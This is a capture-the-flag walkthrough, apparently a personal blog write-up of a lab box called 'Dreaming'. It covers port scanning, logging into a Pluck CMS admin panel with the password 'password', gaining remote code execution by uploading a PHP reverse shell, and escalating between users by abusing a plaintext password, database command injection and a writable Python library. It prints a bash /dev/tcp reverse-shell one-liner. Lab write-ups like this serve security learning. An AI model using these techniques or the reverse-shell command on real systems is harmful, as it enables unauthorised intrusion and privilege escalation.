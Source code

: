 # Dreaming
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/c8e34692-faa1-44cf-9ccb-6c5783aa2ab1)


## Enumeration
First things first, let's start enumerating on our target. We shall start with an NMAP scan. I usually do two rounds of NMAP: the first being an aggressive scan to find the open ports and the second narrowing down on these open ports to find more details. Note that this may be okay to do in a CTF (unless stealth is required) but in an actual pentesting engagement, you need to be stealthy to avoid detection by IDS that a company may have in place.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6b02f58c-7d81-460c-9f4d-2c95c654826e)

You immediately find two open ports: 22 and 80. Now let's find more details on those ports.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/fcf7edee-1493-48d0-a044-4c62dd63e345)

You can see the services running on those ports as well as versions and the OS being used. Let's now explore what could be on port 80. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/1448b4f3-073e-42d2-a2b8-8d5f497d100d)

You find this Apache page but let's see if we can find other directories on the site by running a gobuster scan. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/b8fb9c11-1184-45c0-b2c4-cbb32f674cf5)

Let's see what you may find in `/app`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/26c06cef-d60c-48c9-8474-c43fa0266656)

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/9c9a076e-8fb2-4234-8006-1beaa31e2192)

You can click on `admin` and try to login. 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/65208f88-774e-4121-8149-41a68c81d2c0)

Before rushing to bruteforce using a wordlist, you could try common passwords to see if they would work. Surprisingly, **password** works. 

## Initial Foothold

While looking around, you could also check if there are vulnerabilities associated with pluck 4.7.13 on exploitdb. The search brings up a File Upload Remote Code Execution exploit. Going through this particular exploit reveals that the final file uploaded is a .phar file so remember to save your exploit as such. Download a php reverse shell from pentestmonkey and add the listening port and IP arguments and then change the extension to .phar. In the `Manage Files` option in the drop-down menu that appears when you point to `Pages`, you will find a section to upload your exploit. Before you do so, ensure that netcat is running with listening port indicated. Upload the .phar file and then click on it in the file section to give you a shell. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/5cce0e37-fee4-404b-bacf-e53c5ccd0351)

Now, let's stabliize this shell by running the commands;

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm;ctrl+Z`

`stty raw -echo;fg`

The first line spawns a better featured bash shell, the second line gives access to term commands such as 'clear' and then backgrounds the shell (ensure you actually press ctrl and Z together) and the final line turns off terminal echo and then foregrounds the shell. 

Now you have a stable shell. You can check how many users are on the computer by listing the names in the home directory and we see that we have `death`, `lucien` and `morpheus`. The first flag you are being asked for in lucien's so let's try and get the flag. Lucien's flag is in his home directory but you do not have access to it so you need to log in to his account. On looking around in the `opt` directory, you find Lucien's password in plain text in the `test.py` file. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6b9f308f-776c-46d4-95d3-327dec152d69)

Use this password to switch user to lucien. And just like that, we're in! Now you can read the contents of lucien's flag text document. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/aa734ab6-e2a1-49c7-bafc-b886089f169f)

## Lateral Movement
Now that you have been successful in logging in as one of the users, you need to move laterally to get the flags of the other users. Let's try and get into `death`'s account first. Running `sudo -l` reveals that the user lucien can run `getDreams.py` using python3 as the user death. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8b9d3b97-9f5b-45a7-a661-dc6d3b76db65)

`getDreams.py` is in death's home directory but you (as the user lucien) do not have access it. However, `getDreams.py` also exists in `/opt` and you can assume that this is a copy of the same file in death's home directory. Opening the file in `/opt` shows that it is a script that connects to the mysql database and finds and prints information (dreamer and dream) from `dreams` table. Below is a snippet of it. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/22920cb6-054b-45d8-9219-445ba1c7d7b4)

Now, you can input a command in the table so that running the sudo command will give you a shell as death. But in order to do this, you need to have credentials to the database. The password is redacted in the script but, luckily, you can obtain it from reading the contents of the `.bash_history` file. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8fbaf5a9-272f-479e-8c04-3fb04e11bdd6)

You'll find that the password is **lucien42DBPASSWORD**. Now you can use this to login to the database and insert a new entry that includes a reverse shell. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d5cfb992-d08c-45b9-8121-80017721510d)


Now run the sudo command and this will give you a shell. Stabilize the shell as earlier described. 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/a72c16b7-7a52-493c-b80e-651033ea54c0)


And you find that death's flag is;

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/bc3bc615-31e0-4101-bd00-3d03921451cb)

Now let's try and find a way into Morpheus' account. Since Morpheus cannot run any sudo commands, you should look for files that he can write to using the command;
`find / -type f -writable 2>/dev/null|grep -v proc|grep -v sys| grep -v run|grep -v .local|grep -v .cache`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/314d69d2-8858-443d-8457-8a71bdd5ac5b)

The result of interest is `/usr/lib/python3.8/shutil.py`
It means we can write to the shutil python library. Looking into Morpheus' home directory, you'll see `restore.py` and from its contents, it uses the shutil library. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d148d3ec-0236-4e14-9563-3b4d4b1cdf9e)

You can overwrite what is in the library with a reverse shell and then run it using the command;
`echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[YourIP]/[Listeningport] 0>&1'\")" > /usr/lib/python3.8/shutil.py`
Now, just set up the listener and wait for the script to run and give you a shell. Once it does, you can get the last flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/e5dbf0a0-0a3a-48cf-8d7a-b18bccf6fc24)

Note that once you get a shell into Death's account, you can open `getDreams.py` which has the unredacted password. This password also happens to be Death's ssh password and you can ssh into his account and have a better shell than a netcat shell. 
